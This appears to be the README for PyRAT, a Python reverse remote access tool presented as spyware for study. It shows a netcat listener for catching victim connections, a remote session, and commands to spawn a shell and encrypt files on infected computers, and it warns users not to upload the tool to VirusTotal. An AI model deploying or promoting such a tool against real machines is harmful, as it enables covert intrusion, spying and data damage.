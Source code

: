 <h1 align="center">PyRAT</h1>
<p align="center">Python Remote Access Tool</p>
<p align="center">Reverse Remote Access Tool written in Python for study purpose.</p>
<p align="center"> 
   <img src="https://img.shields.io/badge/language-python-blue.svg">
</p>
<p align="center">Tested on Linux.</p>

---

### Disclaimer
Usage of this malware (PyRAT) for attack targets without prior mutual consent is illegal. 
It is the end user's responsability to obey all applicable local, state, federal and international laws. 
Developer assume no liability and not responsible for any misuse or damage caused by this program.

Do not upload to VirusTotal!

---

## Use netcat to receive connection.
```
$ nc -lvp 4444

Listening on 0.0.0.0 4444
Connection received on localhost 39978
Connection Estabilished!
PyRAT 1.1
Host: kali
Say Hi!

cmd>
```

## Help Menu
```
cmd> help

Help Menu:
----------
help  | Help menu.
exit  | Break connection but keep running.
close | Close connection and stop.
    
sysinfo | System Information.
pyinfo  | Python Information.
shell   | Spawn shell.
    
genkey  | Generate key.
encry   | Encrypt file.
          Usage: encry /path/to/the/file key
decry   | Decrypt file.
          Usage: decry /path/to/the/file key
cmd>
```
---

## About 
PyRAT comes with the objective of studying some processes and possibilities in a simple spyware malware in python.


## Features
Some information about python installed on the infected computer can be obtained typing the command `pyinfo`.

As well as information about the system can `sysinfo`.

There are some features to encrypt files with symetric key and decrypt, make sure to do both with the same key. 

